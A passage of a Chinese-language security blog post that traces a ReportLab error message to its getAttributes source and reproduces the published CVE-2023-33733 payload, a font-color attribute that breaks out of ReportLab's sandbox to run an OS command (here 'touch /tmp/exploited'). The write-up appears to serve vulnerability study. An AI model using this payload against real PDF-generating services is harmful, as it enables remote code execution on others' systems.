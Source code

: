 白帽子过去曾尝试研究这个库的源代码，试图在其中找到一些0day，但由于源代码审查并不是很擅长，所以最终以失败告终。但毕竟对reportlab还是有一些基本了解的，因此白帽子复制了错误消息的一部分并开始在源代码中进行了搜索。

很快便在 invalid attribute name
https://github.com/search?q=repo%3ASudistark%2Freportlab-
diff+%22invalid+attribute+name%22&type=code 中找到了匹配信息。

    
    
        def getAttributes(self,attr,attrMap):
    
            A = {}
    
            for k, v in attr.items():
    
                if not self.caseSensitive:
    
                    k = k.lower()
    
                if k in attrMap:
    
                    j = attrMap[k]
    
                    func = j[1]
    
                    if func is not None:
    
                        #it's a function
    
                        v = func(self,v) if isinstance(func,_ExValidate) else func(v)
    
                    A[j[0]] = v
    
                else:
    
                    self._syntax_error('invalid attribute name %s attrMap=%r'% (k,list(sorted(attrMap.keys()))))
    
    generic
    
    558 Bytes
    
    © Guge's Blog

这与网站中显示的错误消息完全匹配。

研究人员 Elyas 分享了Payload
如何工作的完整详细信息，如有兴趣，可移步：https://github.com/c53elyas/CVE-2023-33733

    
    
    <para><font color="[[[getattr(pow, Word('__globals__'))['os'].system('touch /tmp/exploited') for Word in [ orgTypeFun( 'Word', (str,), { 'mutated': 1, 'startswith': lambda self, x: 1 == 0, '__eq__': lambda self, x: self.mutate() and self.mutated < 0 and str(self) == x, 'mutate': lambda self: { setattr(self, 'mutated', self.mutated - 1) }, '__hash__': lambda self: hash(str(self)), }, ) ] ] for orgTypeFun in [type(type(1))] for none in [[].append(1)]]] and 'red'">
    
                    exploit
    
    </font></para>
    
    generic
    
    505 Bytes
    
    © Guge's Blog
